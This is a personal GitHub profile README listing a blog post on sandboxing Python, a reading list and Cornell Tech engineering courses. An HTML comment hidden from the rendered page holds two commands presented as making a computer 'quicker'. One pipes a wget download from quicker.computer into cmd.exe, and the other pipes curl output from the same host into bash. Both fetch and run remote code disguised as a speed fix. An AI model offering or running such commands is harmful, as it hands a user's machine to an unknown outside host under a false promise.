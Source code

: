 ## Welcome!
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning/Projects
- 💻 Checkout my blog post: [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) 
- 💻 Personal Blog at dackjempsey.com currently it redirects to here.


### Current Reading list
- 📖 [Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881) 
- 📖 [Quantum Computing and Quantum Information](https://www.amazon.com/Quantum-Computation-Information-10th-Anniversary/dp/1107002176/ref=sr_1_1?crid=3K2FR2P6HUCV2&keywords=nielsen+quantum+computing&qid=1676434522&s=books&sprefix=nielson+quantum+computing%2Cstripbooks%2C65&sr=1-1&ufe=app_do%3Aamzn1.fos.006c50ae-5d4c-4777-9bc0-4513d670b6bc) 

### Currently getting my M.Eng ECE at Cornell Tech in NYC:
#### Fall Courses:
- Applied Digital Signal Processing and Communications
- ASIC Design
- Applied Machine Learning

#### Spring Courses:
- Neuromorphic Computing (PHD)
- Designing Inteligent Autonomous Systems
- Machine Learning Hardware Systems
- Sustainable Computing (PHD)


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
